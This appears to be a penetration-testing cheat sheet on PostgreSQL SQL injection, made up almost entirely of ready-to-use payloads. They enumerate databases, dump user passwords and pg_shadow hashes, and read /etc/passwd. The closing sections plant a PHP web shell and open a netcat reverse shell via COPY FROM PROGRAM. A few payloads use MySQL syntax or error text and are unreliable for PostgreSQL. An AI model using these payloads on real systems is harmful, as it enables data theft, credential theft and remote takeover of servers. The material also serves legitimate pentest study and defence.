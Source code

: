 # PostgreSQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

Utilize [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for additional guidance

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
'' OR 1=1 in (SELECT version()) -- //

# We can now attempt to dump table information
'' OR 1=1 in (SELECT * FROM users) -- //

# In the case where we can only query one column at a time
'' OR 1=1 in (SELECT password FROM users) -- //

# We can now specify a user to dump the password for
'' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for additional example queries

### UNION-based/Error-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

**Note** PostgreSQL differs from MySQL in `UNION SELECT` statements due to having to match the variable types within the statement. We can aid in matching types by casting with `::` after the character

```mysql
# We first use ORDER BY and increment until we receive an error
'' ORDER BY 1 -- //
'' ORDER BY 1,2 -- //
'' ORDER BY 1,2,3 -- //
'' ORDER BY 1,2,3,4 -- //
'' ORDER BY 1,2,3,4,5 -- //
'' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
'' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //

# We can now rearange our statement to first query baseline information
'' UNION SELECT null, current_database(), user, version(), null -- //
'' UNION SELECT null, CAST(current_database() as integer), null, null, null -- //
'' UNION SELECT null, CAST(passwd as integer), null, null, null, null FROM pg_shadow -- //

# Now we can query all databases available for us to enumerate (note: information_schema is default)
'' UNION SELECT null, datname, null, null, null FROM pg_database -- //
'' UNION SELECT null, CAST((SELECT datname FROM pg_database) as integer), null, null, null -- //
# In the case where we have to limit output due to not allowing more than one row to be returned (increment offset)
'' UNION SELECT null, CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 0) as integer), null, null, null -- //

# We can now query tables for our desired databases
'' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='db_name' -- //
'' UNION SELECT null, CAST((SELECT table_name FROM information_schema.tables WHERE table_schema='db_name') as integer), null, null, null -- //

# We can now query columns for our desired table
'' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema='db_name' -- //
'' UNION SELECT null, CAST((SELECT column_name FROM information_schema.columns WHERE table_schema='db_name' LIMIT 1 OFFSET 0) as integer), null, null, null -- //

# We now have all the information we need to query table data
'' UNION SELECT null, username, password, description, null FROM users -- //
'' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# We can also leak variables within error data via CAST()
'' UNION SELECT null, CAST(version() as integer), null, null, null -- //
'' UNION SELECT null, CAST((SELECT * FROM users) as integer), null, null, null -- //
# Miscellaneous functions: current_database(), current_schema(), current_schemas(boolean), current_user, session_user, user, version() - https://www.postgresql.org/docs/7.3/functions-misc.html

# RCE (doesn't matter if PHP code is in viewable column)
'' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
''; COPY (SELECT '<?php system($_GET[''cmd'']);?>') TO '/var/www/html/shell.php' -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Boolean-Based Blind SQL Injection

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
'' AND IF (1=1, sleep(2),'false') -- //
```

## Advanced Techniques

### Filesystem Interaction

```mysql
# Read file
'' and 1=cast((SELECT pg_read_file('/etc/passwd')) as int)

# Get version
'' and 1=cast((SELECT version()) as int)

# Read dir
'' and 1=cast((SELECT CAST(query_to_xml('select pg_ls_dir(''/'')', true, true, '') as text)) as int)

# Write file
''; SELECT lo_from_bytea(43216, 'this is a test');SELECT lo_export(43216, '/tmp/test.txt');
```

### RCE

```mysql
# Base64 encode the following payload
CREATE TABLE shell(output text); COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f';

# Execute the following query to write the payload to a file
''; SELECT lo_from_bytea(43225, '$BASE64_PAYLOAD');SELECT lo_export(43225, '/tmp/rce.sql');

# Execute the following query to execute the payload
''; DO $$DECLARE payload_text text; decoded_payload text; BEGIN payload_text := pg_read_file('/tmp/rce.sql'); decoded_payload := convert_from(decode(payload_text, 'base64'), 'UTF8'); EXECUTE decoded_payload; END $$;
```
